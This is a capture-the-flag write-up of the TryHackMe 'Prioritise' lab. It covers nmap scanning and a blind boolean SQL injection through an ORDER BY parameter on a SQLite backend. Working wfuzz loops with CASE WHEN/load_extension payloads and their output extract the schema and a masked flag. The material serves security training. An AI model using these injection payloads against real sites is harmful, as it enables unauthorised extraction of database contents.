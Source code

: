 ```yaml
---
title: Prioritise TryHackMe Writeup
tags: [writeup, tryhackme, sqli, wfuzz, orderby]
style: border
color: success
description: ""
---
```


![logo](../assets/img/prioritise-tryhackme-writeup/1.jpg)

## Scanning
We scan the open ports with the **nmap** tool with scripts and software versions.

```
> nmap -sVC -p- --min-rate 5000 prioritise.thm -Pn -n -oN nmap-prioritise.thm
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:15 CEST
WARNING: Service 10.10.247.170:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for prioritise.thm (10.10.247.170)
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 51fe13747bbc526a883d21d1b3bf13ad (RSA)
|   256 73fef7fdedf492bde2997188f855b28f (ECDSA)
|_  256 f848693d7f199f03166337369f84a87a (ED25519)
80/tcp open  rtsp
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5082
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <meta
|     name="viewport"
|     content="width=device-width, initial-scale=1, shrink-to-fit=no"
|     <link
|     rel="stylesheet"
|     href="../static/css/bootstrap.min.css"
|     crossorigin="anonymous"
|     <link
|     rel="stylesheet"
|     href="../static/css/font-awesome.min.css"
|     crossorigin="anonymous"
|     <link
|     rel="stylesheet"
|     href="../static/css/bootstrap-datepicker.min.css"
|     crossorigin="anonymous"
|     <title>Prioritise</title>
|     </head>
|     <body>
|     <!-- Navigation -->
|     <nav class="navbar navbar-expand-md navbar-dark bg-dark">
|     <div class="container">
|     class="navbar-brand" href="/"><span class="">Prioritise</span></a>
|     <button
|     class="na
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
|_http-title: Prioritise
```

## Enumeration
We access the website, no credentials are required and we can create and order items.

![](../assets/img/prioritise-tryhackme-writeup/2.png)

Here the filter is shown, there are not many objects on the website, so the *SQL Injection* exploit has to be around here.

![](../assets/img/prioritise-tryhackme-writeup/3.png)

After several tests (which were not few), we found a possible exploitation based on error and from the parameter "*order*" (*Think of this 'order', as an "order by <item>"*).

![](../assets/img/prioritise-tryhackme-writeup/4.png)

I tried increasing the *id* (*e.g. 4*), but when I set *5*, the server returned an error. So here I could realize that if it existed, the server did not return a 500 error.

![](../assets/img/prioritise-tryhackme-writeup/5.png)

Once we already had the possible exploitation path, the next step was to think of a way to know the backend, since tools like **SQLMap** didn't work (or at least I couldn't make it work).
So I thought, it would still have to return a *500 error* if it didn't exist and it didn't in the case of the next payload, in which I was able to find out that it was a *SQLite*:

![](../assets/img/prioritise-tryhackme-writeup/6.png)

## Exploitation
So I searched for tutorials and information about possible *SQL injection* attacks based on "*order by*", I found the following from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#boolean---extract-info-order-by)

Once I had the right payload, I set up a one liner with bash and the **wfuzz** tool, I generated a dictionary with letters (upper and lower case) and numbers, I also set up a loop to iterate the positions and finally I filtered those answers with code 404 or 500, so I assumed that all 200 and in the right order would be the correct ones... And so it was!

```bash
> for i in {1..40}; do wfuzz -c --hc 404,500 -w alphanums.txt "http://prioritise.thm/?order=(CASE+WHEN+(SELECT+hex(substr(sql,$i,1))+FROM+sqlite_master+WHERE+type%3d'table'+and+tbl_name+NOT+like+'sqlite_%25'+limit+1+offset+0)+%3d+hex('FUZZ')+THEN+id+ELSE+load_extension(0)+END)" 2>/dev/null | grep -i 200 && echo ""; done
000000029:   200        187 L    273 W      5082 Ch     "C"                        
000000044:   200        187 L    273 W      5082 Ch     "R"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000027:   200        187 L    273 W      5082 Ch     "A"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000027:   200        187 L    273 W      5082 Ch     "A"                        
000000028:   200        187 L    273 W      5082 Ch     "B"                        
000000038:   200        187 L    273 W      5082 Ch     "L"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000020:   200        187 L    273 W      5082 Ch     "t"                        
000000015:   200        187 L    273 W      5082 Ch     "o"                        
000000004:   200        187 L    273 W      5082 Ch     "d"                        
000000015:   200        187 L    273 W      5082 Ch     "o"                        
000000019:   200        187 L    273 W      5082 Ch     "s"                        
000000009:   200        187 L    273 W      5082 Ch     "i"                        
000000004:   200        187 L    273 W      5082 Ch     "d"                        
000000035:   200        187 L    273 W      5082 Ch     "I"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000033:   200        187 L    273 W      5082 Ch     "G"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000044:   200        187 L    273 W      5082 Ch     "R"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000041:   200        187 L    273 W      5082 Ch     "O"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000047:   200        187 L    273 W      5082 Ch     "U"                        
000000038:   200        187 L    273 W      5082 Ch     "L"
```
In the previous example, I increased the number of positions, as I was getting all the rows on the same line, so I had to be patient to get the tables and rows numbered correctly.

Finally, I assembled the last one liner to get the flag and complete the challenge:

#### Final - Obtaining the flag
```bash
> for i in {1..40}; do wfuzz -c --hc 404,500 -w alphanums.txt "http://prioritise.thm/?order=(CASE%20WHEN%20(SELECT%20hex(substr(flag,$i,1))%20FROM%20flag)%20=%20hex('FUZZ')%20THEN%20id%20ELSE%20load_extension(0)%20END)" 2>/dev/null | grep -i 200 && echo ""; done
000000006:   200        187 L    273 W      5082 Ch     "f"                        
000000012:   200        187 L    273 W      5082 Ch     "l"                        
000000001:   200        187 L    273 W      5082 Ch     "a"                        
000000007:   200        187 L    273 W      5082 Ch     "g"                        
000000059:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000061:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000056:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000062:   200        187 L    273 W      5082 Ch     "*"                        
000000057:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000056:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000060:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000059:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000061:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"
```

Mission completed!!!

![](../assets/img/prioritise-tryhackme-writeup/7.png)
